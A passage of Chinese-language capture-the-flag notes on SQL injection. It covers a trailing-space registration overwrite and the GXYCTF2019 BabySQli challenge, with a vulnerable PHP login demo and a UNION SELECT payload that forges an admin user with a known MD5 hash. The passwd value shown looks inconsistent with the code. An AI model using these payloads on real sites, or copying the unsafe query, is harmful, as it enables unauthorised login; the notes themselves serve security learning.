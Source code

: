 - 注册覆盖

  > admin (有个空格)或者 (有个空格)admin
  >
  > 原理：用户名字段长度>5，所以可以添加空格，而sql语句执行时会将空格忽略。
  
  ![image-20230312210909402](../../../../images/image-20230312210909402.png)
  
- 联合查询构造临时用户

  `[GXYCTF2019]BabySQli`

  ```php
  # 后端代码Demo
  $query = "SELECT * FROM manage WHERE user='$user'";
  $result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
  $users = mysql_fetch_array($result);
  
  if (!mysql_num_rows($result)) {  
  	echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
  	exit;
  }
  else{
  	$passwords=$users['password'];
  	if(md5($password)<>$passwords){
  	echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
  	exit;	
  }
  echo "登陆成功";
  ```
  
  ```mysql
  username=admin' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b' limit 1,2--+
  
  passwd=c4ca4238a0b923820dcc509a6f75849b
  
  MD5(1)=c4ca4238a0b923820dcc509a6f75849b
  ```
  